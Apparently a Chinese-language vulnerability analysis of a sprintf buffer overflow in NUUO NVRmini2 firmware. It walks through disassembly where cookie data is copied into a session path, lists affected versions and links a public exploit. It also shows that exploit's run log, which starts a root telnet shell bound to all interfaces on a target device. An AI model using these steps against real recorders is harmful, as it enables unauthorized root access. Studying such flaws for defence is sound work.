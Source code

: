 

![éè¿sprintfæº¢åº](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/files/advisory/overflow_0.png)

```c
int sprintf(char *str, const char *format, ...)
   参数

str -- 这是指向一个字符数组的指针，该数组存储了 C 字符串。
format -- 这是字符串，包含了要被写入到字符串 str 的文本。它可以包含嵌入的 format 标签，format 标签可被随后的附加参数中指定的值替换，并按需求进行格式化。后面跟一些 % 占位的数据
```

[C++中sprintf()函数的使用详解](https://blog.csdn.net/bat67/article/details/52063813)

```c
etc:
char buf1[10] = "123456789";
char buf2[10] = {0};
char buf3[19] = "--abcdefghijklmn--";
sprintf(buf2, "test:%send", buf3);
```

正常的 buf3 > buf2 就会造成  buf 内容覆盖到 buf1

故

ldr        r1, data_538c8  {0x8d2a0, "%s%s"}

ldr        r2,  data_538cc  {0x8d2a8, "/tmp/sess_"}

mov     r0,  sp {var_128}

bl         sprinf

sprintf(address,"%s%s"，“/tmp/sess_”,cookiedata)

在如上参数传递进行format 可以通过 数据进行 [溢出](https://blog.csdn.net/sepnineth/article/details/8213714)





### 利用分析

版本：

- 03.07.0000.0011
- 03.08.0000.0005

[地址](https://github.com/tenable/poc/tree/master/nuuo/nvrmini2)

   ####  nvrmini2_enable_telnet.py : 漏洞利用进行telnet

###### Usage Example:

```shell
albinolobster@ubuntu:~$ telnet 172.20.10.52
Trying 172.20.10.52...
telnet: connect to address 172.20.10.52: Connection refused
telnet: Unable to connect to remote host
albinolobster@ubuntu:~$ python nvrmini2_enable_telnet.py 172.20.10.52 80
[+] Checking for a valid target...
[+] Valid target!
[+] Executing mount -t devpts devpts /dev/pts on 172.20.10.52:80...
[+] Executing /bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"& on 172.20.10.52:80...
[+] Success!
albinolobster@ubuntu:~$ telnet 172.20.10.52
Trying 172.20.10.52...
Connected to 172.20.10.52.
Escape character is '^]'.

root@test:/NUUO/bin# whoami                                                   
```